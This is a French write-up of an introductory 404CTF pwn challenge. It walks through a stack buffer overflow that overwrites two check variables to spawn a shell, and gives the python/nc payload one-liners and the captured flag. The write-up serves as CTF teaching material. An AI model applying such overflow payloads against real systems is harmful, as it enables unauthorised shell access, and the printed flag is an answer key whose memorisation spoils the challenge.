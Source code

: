 # Trop Facile



- Category: `Pwn`
- Points: `100` => `100`
- Difficulty: Intro
- Solves: `300`


**Description**

> Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.
>
>nc challenge.404ctf.fr 32458
>


**Attachments**

- `compromis.c, compromis`

### :book: Introduction

 Etant donne que c'etait mon tout premier chall de pwn c'etait plutot interessant et assez rapide a faire.


![home](![image](https://user-images.githubusercontent.com/64932654/167711362-83b80e2f-f083-4199-ac3a-598aba2f2f82.png))
- Le code source est relativement simple:
    - **Il y a une variable buf de 40bytes qui prend comme valeur un fgets de 49 bytes l'input**
    - **Une valeur check qui est egal a "0xcafebebe"**
    - **Une valeur key qui est egal a "0xdeadbeef"**
    - **On remarque que si key est egal a "0xcafebebe" et check a "0xdeadbeef" un shell se lance**
Il faut donc depasser sur les variables key et check pour ouvrir un shell.




En regardant un peu on peut voir que la fonction fgets recupere 48 bytes (qui vont donc faire depasser la variable buf sur key et check
Donc en theorie si on rentre en input ```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")' | ./compromis``` la pile devrait ressembler a ca: 


![pile](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/pile1.PNG)


On a donc reussi a depasser sur les variables check et key.

En appliquant: 


![shell](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/shellobtenu.PNG)


On obtient bien un message de reussite mais le shell ne reste pas.
Pour garder le controle sur l'entree standard il suffit d'executer


```(python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | ./compromis```

On arrive maintenant a executer des commandes :)

### :arrows_counterclockwise: Exploitation
Il nous suffit maintenant simplement d'executer la meme commande mais en redirigeant le pipe vers le serveur :

```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | nc challenge.404ctf.fr 32458```


![flag](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/flag.PNG)



```

Flag: `404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}`


```

